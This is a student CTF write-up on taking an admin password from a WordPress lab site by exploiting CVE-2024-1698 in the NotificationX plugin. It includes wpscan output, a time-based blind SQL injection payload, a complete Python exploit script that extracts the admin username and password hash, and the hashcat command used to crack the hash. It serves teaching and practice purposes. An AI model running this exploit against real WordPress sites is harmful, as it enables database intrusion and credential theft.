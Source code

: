 # CTF Week #8 (SQL Injection)

## Recognition

In this CTF, the goal was to extract the admin password of a given website.

We started by gathering information about the website, specifically the installed software. On the homepage, we found that the site was running on WordPress. To gather additional information, we used the `wpscan` tool with the command: `wpscan --url http://44.242.216.18:5008/`

The output (Irrelevant parts of the output have been omitted for clarity.):

```
[+] URL: http://44.242.216.18:5008/ [44.242.216.18]
[+] Started: Sat Nov 16 22:22:53 2024

Interesting Finding(s):

[+] WordPress version 6.7 identified (Latest, released on 2024-11-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://44.242.216.18:5008/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/comments/feed/, <generator>https://wordpress.org/?v=6.7</generator>
 |  - http://44.242.216.18:5008/sample-page/feed/, <generator>https://wordpress.org/?v=6.7</generator>

[i] Plugin(s) Identified:

[+] notificationx
 | Location: http://44.242.216.18:5008/wp-content/plugins/notificationx/
 | Last Updated: 2024-10-27T10:43:00.000Z
 | [!] The version is out of date, the latest version is 2.9.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 2.8.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt

```

As we can see, the `wpscan` tool identified that the NotificationX plugin was outdated (latest version: 2.9.2), which presented a possible attack vector.

## CVE Research

Using the [CVE database](https://cve.mitre.org/), we queried for vulnerabilities affecting:

* WordPress version 6.7
* NotificationX version 2.8.1
* SQL Injection 

`CVE-2024-1698` is known vulnerability with 9.8 CRITICAL CVSS score, that works on NotificationX plugin for WordPress in all versions up to and including 2.8.2 (patched in 2.8.3). Plugin is vulnerable to SQL Injection via the `type` parameter on the `notificationx/v1/analytics` endpoint.

## Exploit

To exploit the vulnerability, we used script found in the [GitHub Repository](https://github.com/shanglyu/CVE-2024-1698).

Some explanation:

The exploit works by using blind SQL injection with a timing-based attack to infer information about the database. The vulnerability lies in the type parameter, which is passed into an SQL query without proper sanitization.

The attacker sends payloads that include the `SLEEP()` function to create a delay if a condition is true.
```sql
IF(ASCII(SUBSTRING((SELECT user_pass FROM wp_users WHERE id=1), <letter_position>, 1))=<letter>, SLEEP(10), NULL)-- -
```
It checks if `<letter_position>` character of the admin's password hash has an ASCII value `<letter>`, and if it true it will it will have 10 second delay. The code from the repository automates this process.


Code used for attack, (we updated the `url` variable and set `delay_time` to 10 seconds.)
```py
import requests
from sys import exit

delay_time = 10

url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

session = requests.Session()

query_user = "SELECT user_login FROM wp_users WHERE id=1"
query_pass = "SELECT user_pass FROM wp_users WHERE id=1"

def get_data(query,field_name):
    result = ""
    for char_position in range(1,40):
        for ascii_value in range(256):
            payload = {
                "nx_id" : 10,
                "type" : f"clicks`=IF(ASCII(SUBSTRING(({query}),{char_position},1)) = {ascii_value}, sleep({delay_time}),null)-- -"
            }
            response = session.post(url, data=payload)
            
            if response.elapsed.total_seconds() > delay_time:
                result += chr(ascii_value)
                print(result)
                if ascii_value == 0: #null byte
                    print(f"[*]{field_name} : {result}")
                    return result
                break

username = get_data(query_user, "Username")
password_hash = get_data(query_pass, "Password hash")
```

The output:

<p align="center" justify="center">
  <img src="./assets/CTF8/result.png"/>
</p>

The hashed admin's password: `$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10`.

## Findong the Password

The admin's password was stored as a hash using the default PHPass mechanism.

To crack the retrieved hash, we used the tool Hashcat, command used: `hashcat -O -m 400 -a 0 -o cracked.txt hash.txt rockyou.txt`.

The rockyou.txt we got from this [link](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

The flag is stored in `cracked.txt`.
